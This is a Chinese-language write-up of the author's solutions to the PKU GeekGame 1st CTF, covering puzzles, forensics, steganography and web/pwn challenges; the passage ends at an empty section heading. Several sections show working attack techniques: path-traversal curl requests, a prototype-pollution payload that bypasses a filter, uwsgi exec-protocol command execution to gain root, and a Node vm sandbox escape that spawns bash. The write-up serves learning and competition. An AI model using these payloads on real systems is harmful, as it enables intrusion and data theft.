# GeekGame 1st Writeup by zzh

## 前言

除了跟 [Tea Deliverers](https://ctftime.org/team/38838) 战队一起打 [DEF CON Finals](https://oooverflow.io/dc-ctf-2021-finals/) 之外，我已经大约两年没怎么打过 CTF 比赛了。我很喜欢玩有趣的比赛。正如 [mcfx](https://mcfx.us/) 所说，[USTC Hackergame](https://hack.lug.ustc.edu.cn/) 是个有趣的比赛。然而我作为近几年 Hackergame 的[题目负责人](https://hack.lug.ustc.edu.cn/credits/)，自然是没法参赛的，所以也就没法从选手的视角来体验比赛的乐趣。

今年北大 GeekGame 0th 的时候，我有幸从主办方同学那里拿到一个账号[看了看题](https://github.com/PKU-GeekGame/geekgame-0th/blob/main/data/all_scoreboard.tsv#L15)，觉得非常有趣。另外，北大 GeekGame 二次开发了 Hackergame 的[开源比赛平台](https://github.com/ustclug/hackergame)，这也是我想来参赛的一个重要原因。

比赛周六中午开始，我全力打了周末两天，之后的一天在忙其他事情，然后又打了一个通宵，就没再玩了。整体来说，比赛题目的质量是很高的，题目跟 Hackergame 一样有趣，不过相比 Hackergame 偏难一些。如果要说缺点的话，那就是部分题目实在是太套娃了，以及对新手友好的简单题实在是太少。

哦对了，欢迎参加明年十月份中科大第九届信安大赛！（如果没咕的话）

## →签到←


下载附件，打开 pdf，这是什么玩意儿？关掉 pdf，开始看别的题。

我是做了几题之后回来继续看的签到。我在签到题上面卡了一个多小时。

最开始我没意识到复制那些符号可以得到有用的文本，我以为这些符号是某一种编码，按照这种编码把符号翻译成字符，就会直接得到 flag（毕竟是签到题）。

然后我就开始去搜索各种古典密码，试图找到相似的符号，找了很久也没看到。直到我查看这个 pdf 的元信息，看到一行：

「PDF 制作工具：Microsoft® PowerPoint® 2019」

哦，这应该是 Windows 上某个显示成符号的字体，我好像见过。

然后我就确定了这个字体是 Wingdings。

我开始试图用[这个在线工具](https://www.dcode.fr/wingdings-font)来解码，但是发现这个东西它很难用，并且有的字符显示效果跟 pdf 里面并不一样，我无法解码出来 flag 开头的东西，于是放弃使用这个工具，准备自己手工操作。

打开 Windows 虚拟机，然后在 Word 里面把所有字符打出来，跟 pdf 里面的符号进行匹配，费了半天劲，得到了一串字符：

`eAGetTm@ek __ra_ieGeG`

这不就是直接从 pdf 里面复制出来的乱码么……白费劲了……

然后我盯着这个字符串看，好像里面包含了 GeekGame 这个单词，只是字符被打乱了。于是我开始尝试排列组合试图恢复出一句可读的话。

去掉 GeekGame，还剩下 `AeeGirtT@ ___` 这些字符，我开始用根据包含的字母来寻找单词的[在线工具](https://wordfinder.yourdictionary.com/)试图找到一个英文中有意义的单词，试图拼出 flag。

根本找不到看起来像的。放弃。

然后我用 Rail Fence Cipher 来处理这串字符，调节参数之后得到了

`e_A_Great_Time@GeekG`

大喜。肯定就是这么做了！然后我试图补全了 flag：`flag{Have_A_Great_Time@GeekGame}`。

提交显示错误。然后我又在后面加了 `1st`，还是错误。

这时候我就意识到，pdf 显示的符号外面还有其他字符啊，那怎么复制呢？

试了 macOS 自带的 pdf 阅读器和 Adobe 官方阅读器，都不行。于是开始寻找处理 pdf 格式的工具，找到一个命令行的 pdf 转 html 工具，就用了，然后打开 html，复制，发现可以得到可视区域外面的字符，然后解密一下 Rail Fence Cipher，就做出来了。原来 flag 结尾的几个字符是 `_v1!` 啊，如果是 `_1st`，估计就被我猜出来了。

提交 flag 之后，我就想，既然转换成 html 之后可以复制可视区域外面的字符，那么直接用浏览器打开 pdf 可能也可以？试了一下，果然可以。

## 小北问答 Remake

跟 Hackergame 的猫咪问答一样，是一道考验搜索能力的题。对，是搜索能力，我做三皇后问题的时候就忘了这码事。

这届比赛还不错，每小时可以提交一次。如果是第零届那样，冷却时间指数上升，估计我就做不出来这道题了。

第一题，理科几号楼这个，在地图上看看，再在搜索引擎里面递增去搜索，发现最大可以找到 5，更大就找不到相关信息了，所以猜测是 5。猜不对问题也不大，反正这个之后可以穷举。实际上答案就是 5。

第二题，上届的总注册人数，直接搜，答案 407。


第三题，证书过期时间，https 证书的申请记录都是公开的，我一般用 [crt.sh](https://crt.sh/) 来查。这其实是发现子域名的好方法！你可以搜一下 mcfx 的域名试试。如果不想让别人知道子域名，最好用 wildcard 证书。



7 月 11 日过期这个证书点开看就行了，题目要求提交 +08:00 的时区时间，记得转换时区。

第四题，我参加过好几次 OOO 主办的 DEF CON 了，当然是直接打开 [archive.ooo](https://archive.ooo/)，然后做题拿 flag。这题直接 cat 看不到 flag，用 less 命令就行了。

第五题，排列组合问题，太麻烦了，先放着。

第六题，上届题目中数据库的表名，上届题目[开源了](https://github.com/PKU-GeekGame/geekgame-0th)，直接去看代码就行了，没什么难的。

第七题，AS 号，最开始我直接搜「peking university autonomous system」之类的关键词，看到了 AS24349 就直接交了，因为题目说只有一个嘛，没想到答案是错的。（这次比赛的服务器以及北大的官网都是这个 AS 的。）那就再认真找找看，我用的 [bgp.he.net](https://bgp.he.net/) 搜索的 peking 这个关键词，发现之前那个 AS 号好像不是，具体我也不是很懂。



第八题，搜到了[这个页面](http://www.research.pku.edu.cn/kyjd/kyjdml/sbjkyjd/index.htm)，还有一些其他页面也表明，最长的实验室名明明是 `国家新闻出版广电总局同轴宽带网络工程技术研究中心`，但是答案不对，我也不知道为什么。

既然题目说了截止 6 月 1 日，我觉得可能预期解法就是找到更新时间是 6 月 3 日的[这个页面](https://eecs.pku.edu.cn/info/1060/11528.htm)吧，提交`区域光纤通信网与新型光通信系统国家重点实验室`就正确了。

不过北大不同网站上对实验室名称的使用真的是各不相同，反正按实验室主页的名字算总没错吧。



然后就是那个三皇后题，各种搜索，找不到相关资料。所有资料讨论的都是正方形的情况，根本找不到长宽不等的时候怎么做。自己写代码算排列组合，搞了很久，感觉脑子快炸了，放弃了。

在 codeforces 上面找到[这么个帖子](https://codeforces.com/blog/entry/81328)，两个皇后的话公式是关于 n 的多项式，那三个皇后也很可能是多项式吧。

如果是多项式，就好办了，直接待定系数法，然后用小数据解一下系数就行了。

于是我写代码对长宽比较小的情况暴力打了个表，然后对表进行高阶的差分。如果是多项式，那么进行多项式次数那么多阶的差分，一定会变成常数（就跟多项式反复求导一样嘛，早晚会变成 0）。

经过实验，进行高阶差分之后会出现反复震荡变大的负数，说明应该不是简单的多项式。然后我简单观察了一下数据的模式，好像是奇数列和偶数列分别有自己的规律，所以我就把差分改成了隔一个数算的，7 阶差分的时候效果如下：



看起来只要长宽的比值不超过 2，答案就是 7 次多项式，有希望了！

就在此时，我发现早就打开过的正方形三皇后的 [OEIS 页面](https://oeis.org/A047659)竟然有一句话讲了 m * n 的情况！那我还自己算个啥？于是就把 flag 拿了。

回头看这个公式，里面有 -1 的幂的项，这就是为什么要隔着差分才是多项式。而且里面有关于 abs(n-2m+k) 的多项式，这就是为什么上图的两侧跟中间部分不一样。

另外，我在比赛中还搜到了[其他选手的提问](https://math.he.net/question/924e02e73d04860bd4762be444107e3dddfb7adf)。当然，那两个大整数直接拿去搜索也有彩蛋。

## 共享的机器

一个简单的智能合约纯逆向题，不知道为什么我在放题后 7 个小时去做都能拿到一血。

逆向智能合约直接用 etherscan 自带的反编译就好了，也可以用 [https://ethervm.io/decompile](https://ethervm.io/decompile) 和 [https://www.trustlook.com/services/smart.html](https://www.trustlook.com/services/smart.html) 这两个工具，其实这种简单题反编译的结果都大同小异。



这个是判断 flag 是否正确的函数，关键逻辑就是下面有位运算的那一行。不过我们需要想办法知道两个 storage 的值，这个我之前在 Hackergame 2019 出的[「韭菜银行」一题](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E9%9F%AD%E8%8F%9C%E9%93%B6%E8%A1%8C/README.md#%E7%AC%AC%E4%B8%80%E6%AD%A5)就考察了相同的知识点。

我直接用 `web3.py` 调用 infura 的 API 了。



剩下的部分呢，是个简单的位运算，我比较懒，不想思考了，直接 z3 一把梭吧。



## 翻车的谜语人

这是一道网络流量分析题，直接在 pcap 文件里面 grep flag，可以得到很多信息。容易看出流量里面记录的是 Jupyter Notebook 访问的流量。可以直接看到 flag1 和 flag2 的生成算法，就是 flag 与随机生成的 key 按字节异或。对于 flag1，看起来这个 key 和密文直接被输出了。对于 flag2，似乎有 `flag2.wav` 和 `flag2.7z`，具体怎么回事暂时没搞清楚。

因为 Jupyter Notebook 的文档内容会不断更新，为了取得最终的状态，我们选取流量包中 grep 出来的最后一个有 flag 生成算法的部分，是一个 json，我们把它的内容整理一下得到：

```
>>>>> In:
import zwsp_steg
from Crypto.Random import get_random_bytes
>>>>> In:
import binascii
>>>>> In:
def genflag():
    return 'flag{%s}'%binascii.hexlify(get_random_bytes(16)).decode()
>>>>> In:
flag1 = genflag()
flag2 = genflag()
>>>>> In:
key = get_random_bytes(len(flag1))
>>>>> In:
key
>>>>> Out:
{'data': {'text/plain': "b'\\x1e\\xe0[u\\xf2\\xf2\\x81\\x01U_\\x9d!yc\\x8e\\xce[X\\r\\x04\\x94\\xbc9\\x1d\\xd7\\xf8\\xde\\xdcd\\xb2Q\\xa3\\x8a?\\x16\\xe5\\x8a9'"}, 'execution_count': 31, 'metadata': {}, 'output_type': 'execute_result'}
>>>>> In:
def xor_each(k, b):
    assert len(k)==len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)
>>>>> In:
encoded_flag1 = xor_each(key, flag1.encode())
encoded_flag2 = xor_each(key, flag2.encode())
>>>>> In:
with open('flag1.txt', 'wb') as f:
    f.write(binascii.hexlify(encoded_flag1))
```

因为 flag 的前缀已知是 `flag{`，这里我使用了比较偷懒的做法，就是把这里的 key 跟 `flag{` 异或，可以得到密文的十六进制一定以 `788c3a1289` 开头。

然后我们在 pcap 里面 grep 这段十六进制，即可找到我们需要的 flag1 的密文，异或解密即可。

接下来是第二问。我想知道 `encoded_flag2` 被如何使用的，也是 grep 找到（因为懒着开 Wireshark）。可以看到它被写入进了 `flag2.txt`，但是有一行 `DELETE /api/contents/flag2.txt HTTP/1.1` 说明这个文件被删掉了。

因为之前看到了 `flag2.wav` 和 `flag2.7z`，所以现在就去研究这是怎么回事。在 Wireshark 里面过滤 `frame contains "flag2.wav"`，可以看到 websocket 流量，于是 Follow TCP Stream，看到是终端里面交互执行了命令。


这里 websocket 流量中一个方向的数据有混淆（这是协议的一部分，并且是混淆而不是加密），虽然 Wireshark 可以显示每个包的解码后内容，但是并没有「Follow websocket stream」的功能，我也没找到拿来即用的方便的脚本。由于总的数据量比较少，我就直接人工来看命令了。

根据内容还原出这个用户执行了命令：

```bash
pip3 install stego-lsb
stegolsb wavsteg -h -i ki-ringtrain.wav -i flag2.txt -s flag2.wav -n 1
7z a flag2.7z flag2.wav -p"Wakarimasu! `date` `uname -nom` `nproc`"
```

`flag2.7z` 被下载过，我们从 Wireshark 里面导出，File -> Export Objects -> HTTP，然后找到有 7z 的一行 Save 即可得到这个文件。

然后我们需要从命令里面分析出压缩包的密码，密码里面有 `date`、`uname -nom` 和 `nproc` 三个部分需要还原。在 7z 命令的输出中，我们可以看到 `8 CPUs Intel(R) Core(TM) i7-10510U CPU @ 1.80GHz` 字样，所以 `nproc` 应该是 8。然后，`uname -nom` 包括 hostname，架构和操作系统。可以从命令行的提示符中找到 hostname 是 `you-kali-vm`，然后另外两者是 `x86_64 GNU/Linux` 应该没有疑问。接下来是 `date` 的还原，根据 pcap 里面记录的时间，命令开始执行的瞬间是 `2021-11-06 15:44:15`。我运行了一个 kalilinux 的 Docker 来得到 `date` 命令的输出格式，北京时间的话应该是 `Sat Nov  6 15:44:15 CST 2021`，没设置时区的话 UTC 时间就是 `Sat Nov  6 07:44:15 UTC 2021`

然后呢，密码并不对！

这就糟糕了，可能的情况非常多。可能是 `nproc` 搞错了，比如程序在容器里，没分配那么多核？也可能是 shell 的提示符不是 hostname？是系统时间跟 pcap 的时间之间有误差？也可能是日期格式不对。我还在反复检查终端里面的命令中间空格的情况正确处理了，并且没有搞错命令中间的字符。

然后我开始收集各种可能的日期格式。系统可能是中文的，也可能是英文的，大概率不会是其他语言。时区可能是 UTC 也可能是北京时间，也不太可能是其他时区。我试了几个不同的 Linux 环境，它们的日期格式各不一样，例如：

```
Sat Nov  6 15:44:15 CST 2021
2021年 11月 06日 星期六 15:44:15 CST
Sat 6 Nov 2021 07:44:15 AM UTC
```

这可真糟糕，年份的位置、日和月的顺序、小时和日的开头有没有 0、中间有几个空格、12 小时还是 24 小时制等等各不一样。

于是我开始写脚本穷举，穷举所有可能的核数、秒级的时间偏差、日期的格式。

把所有我认为可能的情况都跑完了，也没跑出来。

过了很久，我有一个想法：有没有可能是 Kali 的 Docker 跟 Kali 的真实系统不一样啊？于是我去下载了一个 Kali 的系统 iso，安装在了虚拟机里，选择英文系统和中国时区。

`date` 命令的输出格式是：`Sat 06 Nov 2021 03:44:15 PM CST`。

注意你要主动让 `date` 输出一个比较早的日期才能看到日是个位数的时候前面要不要加 0。

我以这个格式为基础，再去穷举一些其他参数，就终于得到了正确的密码。

解压出来 `flag2.wav` 之后，用 `stegolsb wavsteg -r -i flag2.wav -o flag2.txt -b 100 -n 1` 就可以得到 `flag2.txt`，然后与 `flag1` 一样异或一下就得到 flag 了。

这个日期的格式问题是真的坑人啊。

## 叶子的新歌

给了一个 mp3 文件，用 `exiftool` 查看，可以发现很多疑点：

专辑的名字是 `Secret in Album Cover!!`。

注释里面有一段故事：

> 你还记得吗？小时候，我家和你家都在一个大院里。放学以后，我们经常一起在院子里玩。你虽然是个女孩子，但总是能和男孩子们玩到一块去。
>
> 夏天的时候我们挖蚯蚓、捉蚂蚱；冬天，院子里的大坡上积了一层雪，我们就坐在纸箱子压成的雪橇上，一次次从坡顶滑到坡底。那个时候你还发现，坐在铁簸箕上滑得更快。
>
> ——当然，那次你也摔得挺惨的。

如果用 `ffmpeg -i` 来处理这个 mp3 文件，可以看到更多 metadata：

`TRACKTOTAL: aHR0cDovL2xhYi5tYXh4c29mdC5uZXQvY3RmL2xlZ2FjeS50Ynoy`

base64 解码之后是 `http://lab.maxxsoft.net/ctf/legacy.tbz2`，看起来是一个外域的网站，应该跟这道题无关。

还有歌词：

> 空无一人的房间
> 我望向窗外
> 想回到昨天
>
> 琥珀色的风
> 能否将 回忆传到那边
> 闪烁的星
> 照亮夜空 连成我的思念
>
> 你 在梦的另一边
> 站在 日落的地平线
> 背离这世界而去
> 想 在回不去的时间里
> 遇见你 遇见你 遇见你
> 遇见你 遇见你 遇见你

既然提示很明确，专辑封面里面有 secret，那就来把封面取出来，网上查了一下，可以用 ffmpeg 把歌曲转成图片格式，就能取出封面了：

`ffmpeg -i LeafsNewSong.mp3 c.png`

然后我又二进制对比了一下，图片文件跟 mp3 文件中的一部分是一样的，说明没有因为转换格式而丢失信息。

接下来我就用 stegsolve 看这个 png，翻了一遍所有的图，发现没什么异常的，就不知道怎么做了。因为在 macOS 上 stegsolve 的 UI 有点问题，LSB 的复选框溢出了没法选中，我就没再多尝试。

然后，我用 `zsteg` 命令来处理了一下图片，也没发现什么信息。



实际上是我看漏了，第二行的 PNG image data 就是隐写的另一张 png，我以为这就是当前的 png 而已（都是 1000 x 1000）。

接下来我就去分析音频去了。我想这道题是一首歌，有 3 个 flag，歌曲里面总会有一个 flag 吧。于是我开始尝试看频谱图、左右声道相减、尝试各种音频隐写工具，都没找到什么线索。谁能想到音频里面根本没有隐藏 flag。

然后我就卡住了。

很久之后，看了一下前面 base64 解出来的那个网址，才意识到它是题目的一部分，因为压缩包里面的 img 文件 metadata 有 `GeekGame` 字样。

我个人认为把题目的一部分放在其他域名下，并且题目描述没有明确说明的话，是非常不好的行为，因为选手并不能确定题目中看到的其他域名是否应该去尝试研究、扫描、攻击等等，默认应该只能对题目域名进行渗透测试。比如北大网关那一题，解题所需的额外数据和 flag 是否可能在网关客户端连接的目标地址上？我是否应该研究软件里面包含的各种域名的 URL 提供的服务？答案应该默认都是否定的。

压缩包里面包含了 `foryou.txt` 和 `To_the_past.img` 两个文件，前者内容是：

> 我有一张很久很久以前的软盘。说起来以前的操作系统还能装在软盘里，把软盘放进电脑就可以启动，很神奇吧？我给你看过这张软盘，但你总说这是Word保存图标的手办……什么跟什么啦！
>
> 现在已经没有带软驱的电脑了，甚至连带光驱的电脑都没有了。以前软盘里的那些东西，也许再也启动不了了吧。
>
> 时间过得好快啊，转眼间，就来到了现实。

根据这里面的提示，自然的想法就是把 img 文件作为软盘启动起来。我是使用 VMware 来做的，其他虚拟机软件包括 qemu 应该也都可以。



交上去发现是第二个 flag。

这个 img 除了可以作为启动盘之外，里面还存储了数据。在 Linux 下使用 `mount` 命令挂载之后，可以看到里面有两个文件：`MEMORY.ZIP` 和 `NOTE.TXT`，后者内容如下：

> 备忘
>
> 密码是：宾驭令诠怀驭榕喆艺艺宾庚艺怀喆晾令喆晾怀

zip 文件是加密的压缩包。

这个密码看起来就像编码错误导致的乱码，我参考了 Hackergame 2020 的（可爱的 loliw 出的）[「从零开始的火星文生活」](https://github.com/USTC-Hackergame/hackergame2020-writeups/blob/master/official/%E4%BB%8E%E9%9B%B6%E5%BC%80%E5%A7%8B%E7%9A%84%E7%81%AB%E6%98%9F%E6%96%87%E7%94%9F%E6%B4%BB/README.md)一题的解法试图穷举各种常见编码错误，都以失败告终。

然后我直接把这串密码拿去搜索了：


发现这是一种人民币编号的方案，每个字对应一个数字。于是按照替换表来替换一下，就得到了 zip 文件的数字密码。

这个压缩包里面有三个文件：`readme.txt`，`left.bin` 和 `right.bin`。

`readme.txt` 里面是接下来的剧情：

> 我以前很喜欢玩红白机，当然，现在也很喜欢。超级马里奥、魂斗罗、坦克大战、马戏团、冒险岛……一玩能玩一天。
>
> 小时候家里有一台红白机，也经常叫你一起玩游戏，只不过，我记得你不喜欢这些东西。你最喜欢在4399玩找不同，而且你还玩的特别棒，简直就是找不同滴神。
>
> 呜呜，红白机已经属于时代的眼泪了。

`left.bin` 和 `right.bin` 两个文件大小不同，用十六进制编辑器查看，可以发现里面对应位置有一些相似内容，但是又不完全一样。

我按照「找不同」这个提示，尝试让两个文件异或、相减、取出相同位置不同的字节等等，都没有提取到有意义的数据。

卡了很久之后，我突然想把文件中的每个字节的十六进制都生成一行文本，然后把两个文件对应的文本进行 diff，结果发现特别有规律：



看起来固定的间隔就有一个字节的 diff，那既然是「找不同」，把所有的不同的字节都连起来肯定就是我们需要的文件了。

得到的文件用 `file` 命令看一下，是 `NES ROM image (iNES): 2x16k PRG, 1x8k CHR [V-mirror]`。

太棒了，跟前面红白机的描述完全吻合，于是把文件放进一个 NES 模拟器里面玩。

游戏是超级马里奥，游戏的一些地方被修改过了，例如人物名字变成了 YE ZI（叶子）。



盲猜通关就可以拿到 flag，但是手残党总不能自己玩通关吧，于是开始在网上搜索各种作弊码，发现即使跳到最后一关加上无敌还是玩不下去。又花了很多时间来找作弊码，也没找到一个直接播放通关结局的。

我心想，这游戏又不开源，如果是想往里面放 flag，肯定是魔改 ROM 来做到的吧，并且应该跟修改人物名字的原理是一样的。那修改人物名字是怎么做到的呢？

我在网上看了一些修改游戏字符的教程视频，例如[这个](https://www.youtube.com/watch?v=aghjzWIHYKs)，得知其实游戏里面有一个映射表，然后游戏文件里面有一部分字节对应的就是这个映射表中的坐标。（下图中的 0~9 和 A~Z。）



如果想要显示文字，那么 ROM 中一部分字节的内容就要对应这里面的坐标。我去下载了原版的超级马里奥游戏 ROM，然后跟这个修改过的版本进行对比：



然后写个脚本转换一下所有的字符（我觉得 `150a` 开头的那个比较可疑就先处理的它）：



其中的 `.` 和 `/` 是后加的，它们位于贴图右下角那里，我最开始没看到它们。

打开这个网址，需要输入软盘启动后的密码。



输入后可以看到故事的结局和第三个 flag。



很感人的故事。但是我还要回头去拿第一个 flag。

我在 Windows 虚拟机安装了 Java 之后，终于跑起来了 stegsolve，然后用默认参数提取 RGB 三个通道的 LSB，可以看到预览里面显著的 PNG 文件头。


把它保存成一张新的 png 图片，然后打开：


这是一个类似二维码的东西，但不是二维码，我也不知道它叫什么，反正微信肯定扫不出来。

根据经验，我去 Wikipedia 的 QR code 词条下面找了一下 See also，果然，第一个 Aztec Code 就是我们要的东西。

然后我随便找了个在线识别这种码的网站，识别出来文本。


看起来是个古典密码，rot13 一下就解密出来了：`The secret in histogram.`

秘密在直方图里面。

用 Photoshop 看一下这张图的直方图：


什么玩意儿，还是用 Python 吧。



统计了一下灰度图片中每种灰度的像素数量，发现要么是一个很大的值，要么是 0（不存在这种灰度的像素）。那么，256 个灰度就可以形成一串二进制。

尝试一些解码方案，例如按 ASCII 解析，以及画成 16 x 16 的图，都没什么规律。

最后想到直方图不会是条形码吧，用 Python 画图：



扫了一下，不行，黑白对调，再扫一下，还真扫出来了，真的是条形码。

扫出来的内容是：`https://xmcp.ltd/KCwBa`



这个 Ook 查一下就知道是一种编程语言，找一个在线的工具运行一下：



得到第一个 flag。

## 在线解压网站

自动解压压缩包，可以看到压缩包内容，flag 在根目录，这显然就是在考软链接啊。

创建一个包含软链接的 zip（用 `zip` 命令的 `--symlinks` 参数），上传，怎么不管用？

本地部署环境，调试了一下才发现，这个网站它显示压缩包子目录内容的功能就是坏掉的，因为 path 匹配不上。我之前把软链接放 zip 内部的一个目录里面了（其实我放的是指向根目录的软链接，以防 flag 有后缀名）。直接把指向 `/flag` 的软链接放在压缩包根目录，上传，搞定。

这网站按照设计应该能看压缩包里面的多级目录结构，但是实际上只能看一层，实在是有点坑。

## 早期人类的聊天室

这道题给了一个文件的源代码，分析可以发现使用读 logfile 的功能就可以做到全盘任意文件读。

那就把服务的各种配置都看一遍吧。首先通过 proc 文件系统读到所有进程的命令行参数：



比较关键的文件：





可以看到 `/flag` 文件只有 root 可读，`/tmp` 下面的文件谁都可以写，uwsgi 以 nobody 身份运行，这正是为什么我们用这个任意读文件漏洞无法读到 flag。uwsgi 监听在本地 3031 端口。uwsgi 以 root 身份启动。

这个程序的聊天功能可以向任意指定的 IP 和端口发送数据，并且由于是 base64 编码，非常方便发送任意字节。

了解到这些，解题思路已经非常清晰了，就是利用任意 TCP 连接的功能来连接本地的 uwsgi 的端口，然后向 uwsgi 发送构造的数据，想办法让它改掉 `/tmp/uwsgi-ctf.ini` 里面的用户名，改成 root，然后直接读 `/flag` 就可以读到了。

现在的困难是，如何构造 uwsgi 协议认可的数据，如何利用这个数据来让 uwsgi 修改文件。

经过一些搜索，找到[这个网页](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)，里面告诉我们可以用 `exec` 协议来任意命令执行。



最开始我想用 sed 命令来把 nobody 替换成 root，结果失败，sed 替换的时候需要创建临时文件，但是题目环境没法创建临时文件。于是我把配置文件复制到 `/dev/shm` 下面操作，再写回去。

替换好文件之后，用 `kill` 命令杀死所有 uwsgi 的进程来让它自动重启。

第一次重启之后 uwsgi 的用户仍然是 nobody，我也不知道为什么。为了绕过这个坑，我研究了一下 uwsgi 配置文件的语法，发现它可以用 `print = @(/flag)` 的形式来把 `/flag` 包含进来作为启动时打印的信息，然后利用任意读文件漏洞来读日志文件 `/tmp/supervisor.log` 就可以了。



可以看到输出了 flag，并且 uwsgi 进程的用户也变成了 root，不知道为什么之前就没有变成 root。

## Flag 即服务

`/api/demo.json` 这里的文件名可以改，看起来应该是一个任意文件读取漏洞。在题目首页可以看到 `demo.json` 在源代码目录的 `data` 子目录里面，试图读上一层目录的文件要加 `../` 但是会被浏览器提前处理掉，所以用 `curl` 命令的 `--path-as-is` 参数试试：

```
$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/a.json
File does not exists!%

$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../a.json
File does not exists!%

$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../../a.json
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

看起来只能读到上一层目录，不能更上层了。

第一个 flag 叫做「获得代码」，那么读什么 json 文件可以获得代码呢？我去随便找了个 node.js 写的项目看了看结构，应该可以读 `package.json` 和 `package-lock.json`。

```
$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../package.json
{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}%

$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../package-lock.json
File too big!%
```

源代码下载到了，第一个 flag 相关逻辑如下：

```javascript
if(FLAG0!==`flag{${0.1+0.2}}`)
    return;
```

在 node 里面运行一下得到 flag：

```
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> `flag{${0.1+0.2}}`
'flag{0.30000000000000004}'
```

要想拿到第二个 flag，必须让源代码里面的 `req.session.activated` 这个变量为真，但是让这个变量为真就要输入这个 flag，这是自相矛盾的。

我打 CTF 一般不做 web 题，所以不熟悉各种常见的攻击方法。我最开始觉得这怎么可能，后来查了一些 node.js 常见的漏洞，了解到了原型链污染攻击，结合这道题的 json 处理逻辑，觉得就是这个思路了。

最开始我看到了源代码里面 session 的 `secret`，我以为可以像 flask 那样签名任意的 session，但是读了文档和源代码之后发现这个 `secret` 泄露了并不会怎么样，session 数据都在服务器内存里，并且 session 的 id 是随机的。退一步说，就算可以伪造其他人的身份，这种每个人独立的题目环境中也没有人已经是 `activated`。

在 json 的处理逻辑中，`in_path` 和 `out_path` 中的每一部分都不能包括 `_`，所以原型链污染的话我们只能用不包含下划线的名字，就只有 `constructor` 和 `prototype` 可以用了。

另外还有一个 `waf` 来检测 `in_path` 和 `out_path` 中不能包含一系列字符串，其中就包括我们要用的 `constructor` 和 `prototype`，这个比较好处理，利用 JavaScript 中的弱类型传进去一个 Array 就行了，在过 waf 的时候不会被检测到，之后会被转换成字符串。

我希望在某个对象的 prototype 中放一个 `activated` 变量，这样任何对象都可以有 `activated` 属性了，就可以获得 flag。构造出来的 payload 是：

`/api/demo.json?in_path[]=0/age&out_path[]=constructor/prototype/activated`

其中 `in_path` 可以从 `demo.json` 中取出来 24 这个数，然后通过 `out_path` 赋值给一个对象的 prototype 的 `activated` 属性。

然后访问 `/activate` 即可得到第二个 flag。

对于第三个 flag，源代码中直接删除了，并且从文件系统中也删除了，但是容易发现 `getflag` 函数中打开的文件没有关闭，Linux 中删除的文件如果还在被程序使用，那么其实不会被真正删掉，你可以从 `/proc/pid/fd/x` 中读到文件内容。

那个 `safe_eval` 中的 `vm` 明显是给我们用来沙箱逃逸的，并且之前查到的讲 node.js 常见考点的[文章](https://f5.pm/go-58190.html)中也讲了 `vm` 的逃逸方法。

首先我们想办法打开 `eval` 功能，我们需要让 `req.session.activated` 变成 1，现在是 24。我们只需要把第二个 flag 重新输入 `/activate` 的 `code` 参数中即可把 `activated` 置为 1。然后我们还需要绕过 URL 路径以 `settings` 结尾时显示 `this feature is currently under development :(` 这个判断，方法就是在 URL 后面加一个 `/` 即可。

打开 `eval` 功能后，就可以试图进行沙箱逃逸了。不过输入的代码有一定限制，必须满足 `^\([^a-zA-Z"',;]+\)$` 这个正则。

我先不管这个正则进行沙箱逃逸的尝试，发现网上能查到的资料中都是用 `process.mainModule` 来引入 `require` 从而得到 `child_process` 模块的。但是我本地复现的题目环境中 `process` 并没有 `mainModule`，我也不知道为什么，而且我后来测试了远程也没有。

这样就只能自己写 payload 来任意命令执行了，并且只能使用 node.js 自带的非常少的一些对象。我是利用 `process.binding('spawn_sync').spawn` 来启动新进程的。具体方法是：

`this.constructor.constructor('return process')().binding('spawn_sync').spawn({file:'bash',args:['bash','-c','cmd'],stdio:[{type:'pipe',readable:true,writable:false}]})`

沙箱逃逸这里调通了，接下来我把 payload 搞成正则表达式要求的格式，不能使用字母和引号等等，那么我最先想到的就是 [JSFuck](https://github.com/aemkei/jsfuck)，只用 6 种字符就能构造任意的语句。

用 JSFuck 处理我的 payload 之后，问题来了，这个请求是 GET 请求，参数在 URL 里面，而 URL 的长度是有限制的，我测试了一下限制大概在 32000 左右，而 JSFuck 生成的代码还要 URL Encode，最终大幅超出了这个限制。

由于我的原始 payload 很难优化得更短，所以我开始魔改 JSFuck。由于题目的正则表达式允许使用数字，我就让 JSFuck 中所有的数字不要进行替换。这样搞出来，payload 的长度终于满足要求了。

最后还有一个问题，就是如何把 flag 传回来。我想到了用 json 的下标进行布尔注入，或者进行基于时间的注入，但是觉得这样太慢还很麻烦，我就决定把 flag 放在 json 文件里面写入 `data` 目录，然后用读取 json 的接口直接读出来。由于字符串本身就是合法的 json，我只要在 flag 两侧加上引号就行了。要注意的一点是，如果 flag 文件的末尾有换行符，那么一定要去掉，不然字符串中间有换行符，不是合法的 json。

最后，遍历 `/proc` 下面的进程号和 fd 号即可，我在本地模拟的 flag 的 fd 大概在 20 左右，我还可以把当前进程的进程号通过 json 读取出来作为参考，估计 30 多大概是可以的。由于真正执行 payload 的进程是沙箱那个 node 子进程，它自己的 fd 并没有 flag，所以需要找到主服务的进程。

最终拿到 flag 的效果如下：



在调试的过程中不知道因为读到了什么 fd 还把服务搞挂掉好几次，需要重启 Docker 才解决。

## 诡异的网关

这道题是本次比赛我花费时间最少的一道题，比签到题都要少很多。

下载文件，拖进 IDA，好复杂啊，不知道从哪里入手。

既然文档里面说了要过滤 flag，那么 flag 是不是就在内存里呢？

运行客户端，挂上调试器，搜索内存，找到 flag，结束。



## 最强大脑

只做出来了第一问。

逆向程序逻辑，发现是一个 brainfuck 语言解释器，程序开始的时候会把 flag 放在内存的尾部，直接把整个内存打出来就行了。

我的 payload 是 `+[>.+]`。

## 电子游戏概论

